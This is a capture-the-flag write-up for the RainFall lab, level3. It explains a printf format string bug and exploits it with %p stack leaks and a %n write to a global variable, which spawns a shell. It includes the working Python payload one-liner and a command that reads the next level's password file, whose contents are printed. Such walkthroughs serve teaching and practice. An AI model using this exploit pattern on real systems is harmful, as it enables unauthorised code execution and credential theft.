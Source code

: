 in this binary we have a simple format string vulnerability.

we give our program an input and it prints it back. after that it checks if an uninitialized global variable `m` is no equal to `0x40` and based on that it either returns `m` value or executes `system("/bin/sh")`

```c
if (m != 64)
        return m;
    
fwrite("Wait what?!\n", 1, 12, stdout);
return system("/bin/sh");
```

but the problem is `m` is uninitialized so the condition will always be true, but since printf takes our input without any specifier we can exploit format string.

we will be using the `%n` specifier to overwrite `m` value

what `%n` specifier does is: `The  number  of characters written so far is stored into the integer pointed to by the corresponding argument.`

```c
printf("AAAA%n", &a);
```
assuming we have an int `a` declared, the printf will print `AAAA` and store 4 (the size of "AAAA") in the variable a.

ok then, since we have format string we can use `%n` and write to any adress in the stack.

```bash
level3@RainFall:~$ ./level3 
AAAA%p %p %p %p %p %p %p %p %p %p    
AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

we can see that we can reach our input in the fourth address of the stack
`0x41414141 => "AAAA"`. and the address of the m variable is `0x804988c`

```x86asm
0x080484da <+54>:	mov    eax,ds:0x804988c ; the address of m
0x080484df <+59>:	cmp    eax,0x40
```

now with all the information we have we know what to do:

we write a string of length 64 in the address which we will write in the beginning fo that string and access it using `%n`

```bash
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08%60x%4$n"'; cat) | ./level3
�                                                         200
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

and there you go.